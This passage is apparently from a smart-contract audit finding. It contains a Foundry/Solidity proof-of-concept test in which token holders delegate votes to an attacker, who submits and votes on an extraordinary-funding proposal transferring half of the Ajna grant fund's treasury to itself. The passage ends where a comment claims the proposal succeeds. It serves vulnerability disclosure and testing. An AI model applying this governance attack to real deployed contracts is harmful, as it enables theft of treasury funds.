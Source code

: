 ```
        - TotalSupply is 1B ajna tokens.
        - Treasury is 300M ajna tokens
        - Non-Treasury tokens are 700M tokens
      */
      assertEq(_token.balanceOf(_attacker), 385_000_000 * 1e18);
      assertEq(_token.balanceOf(_tokenHolder2), 23_000_000 * 1e18);
      assertEq(_token.balanceOf(_tokenHolder3), 23_000_000 * 1e18);
      assertEq(_token.balanceOf(_tokenHolder4), 23_000_000 * 1e18);
      assertEq(_token.balanceOf(_tokenHolder5), 23_000_000 * 1e18);
      assertEq(_token.balanceOf(_tokenHolder6), 23_000_000 * 1e18);
      assertEq(_token.totalSupply(), 1_000_000_000 * 1e18);
      assertEq(_grantFund.treasury(), 300_000_000 * 1e18);
      assertEq(_grantFund.getSliceOfNonTreasury(1e18), 700_000_000 * 1e18);

      // Attacker self delegates
      _delegateTo(_token, _votersArrAttacker, _votersArrAttacker);
      // All holders delegate their tokens to the attacker.
      _delegateTo(_token, _votersArr, _helperAttackerDelegatee);

      vm.roll(_startBlock2 + 100);

      // set proposal params
      uint256 endBlockParam = block.number + 100_000;
       // 150M tokens requested, that is 50% of treasury
      uint256 tokensRequestedParam = 150_000_000 * 1e18;

      // generate proposal targets
      address[] memory targets = new address[](1);
      targets[0] = address(_token);

      // generate proposal values
      uint256[] memory values = new uint256[](1);
      values[0] = 0;

      // generate proposal calldata
      bytes[] memory calldatas = new bytes[](1);
      calldatas[0] = abi.encodeWithSignature(
        "transfer(address,uint256)",
        _attacker,
        tokensRequestedParam
      );

      // create and submit proposal
      TestProposalExtraordinary memory testProposal = _createProposalExtraordinary(
        _grantFund,
        _attacker,
        endBlockParam,
        targets,
        values,
        calldatas,
        "We are requesting 50% of the treasury since this is a super important and big development for the ecosystem"
      );

      // Attacker has 500M of voting power which is ~ 71.4% of Non-Treasury Tokens
      uint256 attackerVotingPowerForEP = _grantFund.getVotesExtraordinary(_attacker, testProposal.proposalId);
      assertEq(attackerVotingPowerForEP, 500_000_000 * 1e18);

      changePrank(_attacker);
      _grantFund.voteExtraordinary(testProposal.proposalId);

      // Proposal state is Succeeded with only a 500M voting power.
```